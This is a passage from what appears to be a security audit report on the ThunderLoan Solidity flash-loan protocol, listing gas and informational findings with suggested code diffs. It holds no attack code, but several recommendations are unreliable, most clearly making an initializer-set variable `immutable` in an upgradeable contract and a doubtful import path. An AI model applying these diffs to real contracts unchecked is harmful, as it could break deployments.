If this function call is front-run the prices from the oracle _could_ be incorrect, depending on what the person who calls `initialize` sets the `tswapAddress` to.

**Recommended Mitigation:**
In the deploy script, it's worth adding an `initialize` function call immediately after deploying the `ThunderLoan` contract to prevent this from happening.

## Gas Optimizations

### [G-1] The `AssetToken::updateExchangeRate` function has many unnecessary `storage` reads for the `AssetToken::s_exchangeRate` variable, causing gas inefficiency.

**Description:**
When reading the same value from storage many times in a function, it's best to store this is memory first, and then use the memory variable for the rest of the function, unless it changes.

In this case, it doesn't change, so store it in memory first.

**Impact:**
This will improve gas efficiency for the `AssetToken::updateExchangeRate` function.

**Proof of Concept:**

**Recommended Mitigation:**

1. In the `AssetToken::updateExchangeRate` function, declare the variable `oldExchangeRate` and set it to `s_exchangeRate` first.
2. Then change the instances of `s_exchangeRate` to `oldExchangeRate` the memory variable for the rest of the function.
3. Additionally, instead of using the `s_exchangeRate` in the event emission at the end of the function, use the `newExchangeRate` variable. It's the same value, however instead of reading from storage, it reads from memory.

```diff
    function updateExchangeRate(uint256 fee) external onlyThunderLoan {
+       uint256 oldExchangeRate = s_exchangeRate;

-       uint256 newExchangeRate = s_exchangeRate * (totalSupply() + fee) / totalSupply();
+       uint256 newExchangeRate = oldExchangeRate * (totalSupply() + fee) / totalSupply();

-       if (newExchangeRate <= s_exchangeRate) {
+       if (newExchangeRate <= oldExchangeRate) {
-           revert AssetToken__ExhangeRateCanOnlyIncrease(s_exchangeRate, newExchangeRate);
+           revert AssetToken__ExhangeRateCanOnlyIncrease(oldExchangeRate, newExchangeRate);
        }
        s_exchangeRate = newExchangeRate;
-       emit ExchangeRateUpdated(s_exchangeRate);
+       emit ExchangeRateUpdated(newExchangeRate);
    }
```

## Informational

### [I-1] Missing check for `address(0)` when setting `s_poolFactory` in the `OracleUpgradeable::__Oracle_init_unchained` function.

**Description:**
The `OracleUpgradeable::__Oracle_init_unchained` function is missing a check on the `poolFactoryAddress` parameter to check it it is `address(0)`.

**Impact:**
This doesn't have a major impact on the functionality of the protocol, however if the `poolFactoryAddress` is accidentally set to `address(0)`, it will break much of the core protocol functionality, and therefore should check to see if `poolFactoryAddress` is `address(0)`.

**Recommended Change:**

```diff
    function __Oracle_init_unchained(address poolFactoryAddress) internal onlyInitializing {
+       if (poolFactoryAddress == address(0)) revert();
        s_poolFactory = poolFactoryAddress;
    }
```

### [I-2] `public` functions not used internally could be marked `external` to improve gas efficiency and security.

**Description:**
An `external` function is more gas efficient, and if it's not explicitly used in the contract, it could represent a security risk as it should never be called inside the contract.

The affected functions are:

- `ThunderLoan::repay`
- `ThunderLoan::getAssetFromToken`
- `ThunderLoan::isCurrentlyFlashLoaning`
- `ThunderLoanUpgraded::repay`
- `ThunderLoanUpgraded::getAssetFromToken`
- `ThunderLoanUpgraded::isCurrentlyFlashLoaning`
- `OracleUpgradeable::getPriceInWeth`

**Impact:**
This won't have any major direct impact on the protocol, but it will improve gas fees when calling these functions

**Recommended Mitigation:**
In each of the functions, replace the `public` keyword with `external`.

### [I-3] Centralization Risk in the `ThunderLoan` and `ThunderLoanUpgraded` contracts mean that the owner can change the `poolFactory` address.

**Description:**
Centralization risk can be a security risk for stakeholders of the contract, as the owner has special privleges to make unforseen changes to the protocol.

In the ThunderLoan protocol, the following functions are susceptible to centralization risk:

- `ThunderLoan::setAllowedToken`
- `ThunderLoan::updateFlashLoanFee`
- `ThunderLoan::_authorizeUpgrade`
- `ThunderLoanUpgraded::setAllowedToken`
- `ThunderLoanUpgraded::updateFlashLoanFee`
- `ThunderLoanUpgraded::_authorizeUpgrade`

**Impact:**
The usefulness of the protocol is somewhat dependent on the owner. In certain cases, like `setAllowedToken`, it's helpful as the owner may have the ability to understand which tokens are safe to use in the protocol, and to not allow unsafe tokens.

In the case of `updateFlashLoanFee`, it's also not a major issue, as everyone has access to the updated value of the updated `s_flashLoanFee` value.

The main concern is the `ThunderLoanUpgraded::_authorizeUpgrade` function, where the logic and rules of the protocol can be changed entirely on the whim of the owner.

**Recommended Change:**
This is a design decision, and it is up to the protocol to decide if they want to keep this centralization risk.

### [I-4] Events are missing `indexed` flags, which help off-chain tools index events on the protocol.

**Description:**
Events are a way to log important information about the protocol, and are used by off-chain tools to index and search for important information. By adding the `indexed` flag to an event, it allows off-chain tools to index the event by that parameter.

The following events are missing the `indexed` flag:

- `AssetToken::ExchangeRateUpdated`
- `ThunderLoan::Deposit`
- `ThunderLoan::AllowedTokenSet`
- `ThunderLoan::Redeemed`
- `ThunderLoan::FlashLoan`
- `ThunderLoanUpgraded::Deposit`
- `ThunderLoanUpgraded::AllowedTokenSet`
- `ThunderLoanUpgraded::Redeemed`
- `ThunderLoanUpgraded::FlashLoan`

**Impact:**
This doesn't have a major impact on the protocol, but it can make it harder for off-chain tools to index and search for important information.

**Recommended Changes:**
Each of these events should have 3 `indexed` flags.
If there are less than 3 parameters for the event, the `indexed` flag should be added to the all parameters.

For example:

- `AssetToken::ExchangeRateUpdated`

```diff
-   event ExchangeRateUpdated(uint256 newExchangeRate);
+   event ExchangeRateUpdated(uint256 indexed newExchangeRate);
```

- `ThunderLoan::Deposit`

```diff
-   event Deposit(address indexed account, IERC20 indexed token, uint256 amount);
+   event Deposit(address indexed account, IERC20 indexed token, uint256 indexed amount);
```

- `ThunderLoan::AllowedTokenSet`

```diff
-    event AllowedTokenSet(IERC20 indexed token, AssetToken indexed asset, bool allowed);
+    event AllowedTokenSet(IERC20 indexed token, AssetToken indexed asset, bool indexed allowed);
```

- `ThunderLoan::Redeemed`

```diff
-    event Redeemed(address indexed account, IERC20 indexed token, uint256 amountOfAssetToken, uint256 amountOfUnderlying);
+    event Redeemed(address indexed account, IERC20 indexed token, uint256 indexed amountOfAssetToken, uint256 amountOfUnderlying);
```

- `ThunderLoan::FlashLoan`

```diff
-    event FlashLoan(address indexed receiverAddress, IERC20 indexed token, uint256 amount, uint256 fee, bytes params);
+    event FlashLoan(address indexed receiverAddress, IERC20 indexed token, uint256 indexed amount, uint256 fee, bytes params);
```

### [I-5] Unused custom errors in the `ThunderLoan` and `ThunderLoanUpgraded` contracts could be removed to save gas and improve readability

**Description:**
Custom errors are a way to provide more context to a revert, however if they are not used, they can be removed to save gas and improve readability.

**Impact:**
There's no major impact on the protocol, but it will save gas and improve readability.

**Recommended Changes:**
Remove the following lines from the `ThunderLoan` and `ThunderLoanUpgraded` contracts:

```diff
-    error ThunderLoan__ExhangeRateCanOnlyIncrease();
```

### [I-6] The `0.8.20` compiler has the `PUSH0` opcode, which is not supported by all chains - and Shanghai

**Description:**
The `PUSH0` opcode is not supported by all chains and EVM versions.
To use the `0.8.20` solidity version, the ThunderLoan contracts should only be compiled by EVM version from Shanghai and above.

View this page to see the date in which these compiler versions were released: [https://docs.blockscout.com/setup-and-run-blockscout/information-and-settings/evm-version-information](https://docs.blockscout.com/setup-and-run-blockscout/information-and-settings/evm-version-information)

**Impact:**
So long as the protocol is being compiled by and EVM version from Shanghai and above, there should be no impact on the protocol.

If the protocol will be deployed on a chain that doesn't support the `PUSH0` opcode, the protocol will not work as expected, and may not deploy at all.

### [I-7] The `ThunderLoan` contract does not implement the `IThnunderLoan` interface.

**Description:**
The `ThunderLoan` contract does not implement the `IThunderLoan` interface, which could lead to confusion for developers who are trying to interact with the protocol.

**Impact:**
This doesn't have a major impact on the protocol, but it could lead to confusion for developers who are trying to interact with the protocol.

**Recommended Change:**
In the `ThunderLoan.sol` contract, add the interface by adding the following lines:

```diff
+   import "../interfaces/IThunderLoan.sol";

-   contract ThunderLoan is Initializable, OwnableUpgradeable, UUPSUpgradeable, OracleUpgradeable {
+   contract ThunderLoan is IThunderLoan, Initializable, OwnableUpgradeable, UUPSUpgradeable, OracleUpgradeable {
    .
    .
    .
}
```

### [I-8] The `IThunderLoan::repay` function signature does not match the `ThunderLoan::repay` function signature.

**Description:**
The `IThunderLoan::repay` function signature has a mis-matching type for the `token` parameter than it's intended implementation in the `ThunderLoan` contract.

- `IThunderLoan::repay` has the `token` parameter as `address` type.

```javascript
function repay(address token, uint256 amount) external;
```

- `ThunderLoan::repay` has the `token` parameter as `IERC20` type.

```javascript
function repay(IERC20 token, uint256 amount) public {};
```

If the `IThunderLoan` interface was implemented in the `ThunderLoan` contract, the compiler would throw an error, as the function signatures do not match.
As this is not the case, the compiler doesn't complain.

**Impact:**
This could lead to confusion for developers who are trying to interact with the protocol, where they may attempt to pass an `address` to the `repay` function, when it should be an `IERC20` type.

**Recommended Change:**
Change the `IThunderLoan::repay` function signature to match the `ThunderLoan::repay` function signature.

```diff
-    function repay(address token, uint256 amount) external;
+    function repay(IERC20 token, uint256 amount) external;
```

### [I-9] Unused import in the `IFlashLoanReceiver` interface could be removed to save gas and improve readability

**Description:**
The `IFlashLoanReceiver` interface imports the `IThunderLoan` interface, but it is not used in the interface.

**Impact:**
This doesn't have a major impact on the protocol, but it will save gas and improve readability.

This is being imported in the `MockFlashLoanReceiver` tests.
This is bad practice to import more than 1 interface by importing it in another interface, simply to use in tests.
So, it's best to explicitly import the `IThunderLoan` interface in the `MockFlashLoanReceiver` tests, instead of importing it in the `IFlashLoanReceiver` interface.

**Recommended Mitigation:**
In the `IFlashLoanReceiver` interface, remove the following line:

```diff
-    import { IThunderLoan } from "./IThunderLoan.sol";
```

In the `MockFlashLoanReceiver` test (`test/mocks/MockFlashLoanReceiver.sol`), explicitly add the `IThunderLoan` import:

```diff
+    import { IThunderLoan } from "./IThunderLoan.sol";
```

### [I-10] Non-descriptive name for the `ThunderLoad::initialize` function parameter `tswapAddress`, which can cause confusion about what the parameter is.

**Description:**
As there is no natspec for the `ThunderLoan::initialize` function, the `tswapAddress` parameter is not descriptive enough to understand what it is.

**Recommended Mitigation:**
Change the `tswapAddress` parameter name to `tSwapPoolFactoryAddress`.

```diff
-   function initialize(address tswapAddress) external initializer
+   function initialize(address tSwapPoolFactoryAddress) external initializer
```

### [I-11] The `ThunderLoan::s_feePrecision` variable is a `private` `storage` variable, but it isn't changed in the contract, so it should be `immutable`.

**Description:**
If a variable is not changed in the contract, it should be marked as `immutable` to save gas and improve readability.

**Recommended Mitigation:**
Change the `ThunderLoan::s_feePrecision` variable to `immutable`.

```diff
-   uint256 private s_feePrecision;
+   uint256 private immutable s_feePrecision;
```

As the variable is prefixed with an `s_`, indicating it's a `storage` variable, it should probably be changed to `i_feePrecision`.
However, every instance where the `s_feePrecision` will also need to be changed to `i_feePrecision`.

```diff
-   uint256 private s_feePrecision;
+   uint256 private immutable i_feePrecision;

# And every instance of `s_feePrecision` below should be changed to `i_feePrecision`
```

### [I-12] Various function with no natspec comments, which can cause confusion for developers who are trying to interact with the protocol and may cause them to incorrectly guess about what functions and parameters do.

**Description:**
Natspec is important for developers, and if it's not present, someone may misinterpret what a function does, and have unintended consequences for the functions they call.

The following functions are missing natspec comments:

- `IFlashLoanReceiver::executeOperation`
- `ThunderLoan::initialize`
- `ThunderLoan::deposit`
- `ThunderLoan::flashloan`
- `ThunderLoan::repay`
- `ThunderLoan::setAllowedToken`
- `ThunderLoan::getCalculatedFee`
- `ThunderLoan::updateFlashLoanFee`
- `ThunderLoan::isAllowedToken`
- `ThunderLoan::getAssetFromToken`
- `ThunderLoan::isCurrentlyFlashLoaning`
- `ThunderLoan::getFee`
- `ThunderLoan::getFeePrecision`
- `ThunderLoan::_authorizeUpgrade`

### [I-13] An Event should be emitted when the `ThunderLoan::s_flashLoanFee` variable is updated from the `ThunderLoan::updateFlashLoanFee` function, to provide more context to off-chain tools.

**Description:**
It's important to emit an event storage variables are updated.

This has no impact on the inner-functionality of the protocol, however it's best practice, and off-chain tools can use this information to index and update how they consume data moving forward.

**Recommended Mitigation:**
In the `ThunderLoan` contract, add a new `event`, and call it at the end of the `ThunderLoan::updateFlashLoanFee`.

```diff
+   event FlashLoanFeeUpdated(uint256 indexed newFee);

    function updateFlashLoanFee(uint256 newFee) external onlyOwner {
        if (newFee > s_feePrecision) {
            revert ThunderLoan__BadNewFee();
        }
        s_flashLoanFee = newFee;
+       emit FlashLoanFeeUpdated(newFee);
    }
```

